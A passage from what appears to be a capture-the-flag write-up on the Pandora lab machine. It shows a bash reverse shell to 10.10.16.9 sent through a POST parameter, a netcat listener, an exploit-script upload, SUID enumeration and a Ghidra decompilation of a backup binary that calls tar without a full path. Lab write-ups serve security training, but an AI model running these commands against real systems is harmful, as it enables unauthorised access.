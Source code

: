 Now let’s capture the request on burp, and send a POST request of our reverse shell:

```bash
cmd=bash -c 'bash -i >& /dev/tcp/10.10.16.9/4444 0>&1'
```

Before we execute, we need to start our listener:

```bash
nc -lnvp 4444
```

![image.png]({{ site.baseurl }}/assets/pandora/image%2012.png)

We now have shell:

![image.png]({{ site.baseurl }}/assets/pandora/image%2013.png)

We could’ve also uploaded the file with the exploit like this:

```bash
python3 sqlpwn.py -t localhost:80 -f web.php
```

Let’s enumerate basic info:

![image.png]({{ site.baseurl }}/assets/pandora/image%2014.png)

Let’s find SUID binaries:

```bash
find / -perm -4000 -type f -ls 2>/dev/null

   262929     20 -rwsr-x---   1 root     matt        16816 Dec  3  2021 /usr/bin/pandora_backup

```

Let’s run it and see what it does:

```bash
/usr/bin/pandora_backup 

tar: /root/.backup/pandora-backup.tar.gz: Cannot open: Permission denied
tar: Error is not recoverable: exiting now
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
Backup failed!
Check your permissions!
```

Let’s transfer the binary back and decompile it in ghidra to see the functions. After ghira finished analysing:

```bash
bool main(void)

{
  __uid_t __euid;
  __uid_t __ruid;
  int iVar1;
  
  __euid = getuid();
  __ruid = geteuid();
  setreuid(__ruid,__euid);
  puts("PandoraFMS Backup Utility");
  puts("Now attempting to backup PandoraFMS client");
  iVar1 = system("tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*");
  if (iVar1 == 0) {
     puts("Backup successful!");
     puts("Terminating program!");
```
